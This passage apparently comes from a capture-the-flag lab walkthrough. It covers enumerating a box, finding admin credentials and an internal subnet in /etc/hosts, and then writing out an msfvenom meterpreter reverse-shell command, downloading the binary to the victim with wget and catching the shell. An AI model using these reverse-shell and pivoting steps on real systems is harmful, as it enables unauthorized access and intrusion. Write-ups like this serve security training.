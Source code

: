 
![Screenshot of Creds.txt](/assets/media/tempusfugitdurius/Creds_File.png)

The creds seem to be for an account named `admin`. I attempt to SSH into the machine using those creds and also attempt to use `su` to switch to that user but both are unsuccessful. I decide to save the creds for later and continue enumerating the machine.

I noticed that the snippet of Python code used for the web application connects to an FTP server `ftp.mofo.pwn`. This stood out to me because it implied some resolution of that hostname to an IP address. I check the `/etc/hosts` file for more information and find an entry for a Class C internal IP address `192.168.150.100 sid`.


![Screenshot of /etc/hosts](/assets/media/tempusfugitdurius/Etc_Hosts.png)

To scan the internal `192.168.150.0/24` address range, I decide to make a meterpreter reverse shell binary `msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=tun0 LPORT=443 -f elf -o peterelf` and download it onto the victim machine using `wget`. After that, I launch my msfconsole listener and execute the binary to catch a meterpreter reverse shell.


![Screenshot of Downloading Meterpreter Binary](/assets/media/tempusfugitdurius/Downloading_Meterpreter.png)

![Screenshot of Catching Meterpreter Shell](/assets/media/tempusfugitdurius/Catching_Meterpreter.png)
